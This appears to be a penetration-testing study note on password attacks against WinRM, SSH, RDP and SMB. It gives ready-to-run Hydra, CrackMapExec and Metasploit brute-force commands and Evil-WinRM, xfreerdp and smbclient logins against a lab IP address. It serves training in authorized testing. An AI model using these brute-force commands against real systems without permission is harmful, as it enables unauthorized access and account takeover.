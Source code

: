 A handy tool that we can use for our password attacks is [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), which can also be used for other protocols such as SMB, LDAP, MSSQL, and others. We recommend reading the [official documentation](https://web.archive.org/web/20231116172005/https://www.crackmapexec.wiki/) for this tool to become familiar with it.

## WinRM [[Windows Remote Management Protocols]]

It is a network protocol based on XML web services using the [Simple Object Access Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-glossary) (`SOAP`) used for remote management of Windows systems. It takes care of the communication between [Web-Based Enterprise Management](https://en.wikipedia.org/wiki/Web-Based_Enterprise_Management) (`WBEM`) and the [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (`WMI`), which can call the [Distributed Component Object Model](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0) (`DCOM`).

---
#### CrackMapExec

#### Installing CrackMapExec

```shell-session
sudo apt-get -y install crackmapexec
```

Note: Alternatively, we can install [NetExec](https://github.com/Pennyw0rth/NetExec) to follow along using `sudo apt-get -y install netexec`

#### Using CrackMapExec

Help:

```shell-session
crackmapexec -h
```

CrackMapExec Protocol-Specific Help:

```shell-session
crackmapexec smb -h
```

CrackMapExec Usage:

```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

example:
```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

---

For WinRM:
#### Evil-WinRM

Installing Evil-WinRM:

```shell-session
sudo gem install evil-winrm
```

Usage:

```shell-session
evil-winrm -i <target-IP> -u <username> -p <password>
```

example:
```shell-session
evil-winrm -i 10.129.42.197 -u user -p password
```

---
## SSH [[Linux Remote Management Protocols]]

### Using Hydra to bruteforce ssh

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

---
## RDP [[Windows Remote Management Protocols]]

Port : 3389
### Using Hydra to bruteforce rdp

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```

#### xFreeRDP (from linux)

```shell-session
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

example:
```shell-session
xfreerdp /v:10.129.42.197 /u:user /p:password
```

---

## SMB [[SMB]]

#### Hydra - SMB

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```
 may get 
 ```shell-session
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

#### Metasploit Framework

```shell-session
use auxiliary/scanner/smb/smb_login
```
```shell-session
set user_file user.list
```
```shell-session
set pass_file password.list
```
```shell-session
set rhosts 10.129.42.197
```
```shell-session
run
```
#### CrackMapExec

```shell-session
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```


#### Smbclient
```shell-session
smbclient -U user \\\\10.129.42.197\\SHARENAME
```



